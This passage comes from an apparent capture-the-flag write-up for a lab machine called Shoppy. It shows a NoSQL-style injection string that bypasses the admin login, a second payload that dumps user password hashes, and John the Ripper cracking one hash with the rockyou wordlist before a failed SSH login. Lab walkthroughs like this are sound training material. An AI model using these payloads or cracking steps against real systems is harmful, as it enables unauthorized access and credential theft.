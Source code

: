 ```python
				print(" Worked!!!")
				print("Query: " + line)
				break
		except:
			print("Connection Error!")
	print("Quitting...")
```

and finally, the querry `admin'||''==='` somehow worked, It wasn't even included in the queries lists that I used in this attack, I don't know how I came up with this. Anyways, I'M IN!

![Admin Page of Shoppy](https://imgur.com/w7hn1FV.png)

I then navigated to the search page and inserted the same SQL Injection query without the username admin, because I wanted to dump all usernames; `'||''==='` and I got the results:

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]

```
I tried breaking the admin's password hash but I couldn't. However, I managed to crack `josh`'s password using `John The Ripper`:

```shell
└─$ john --format=raw-md5 joshPasswd --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)     
1g 0:00:00:00 DONE (2022-09-20 10:00) 5.000g/s 4060Kp/s 4060Kc/s 4060KC/s renato1989..reiji
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

`remembermethisway` Is the password of a username `josh`, but where? First I tried to connect to `ssh` since port 22 SSH was open on the target machine, but didn't work

```shell
└─$ ssh josh@$IP                                                                     
josh@10.129.208.171's password: 
Permission denied, please try again.
josh@10.129.208.171's password: 
Permission denied, please try again.
josh@10.129.208.171's password: 
josh@10.129.208.171: Permission denied 
```
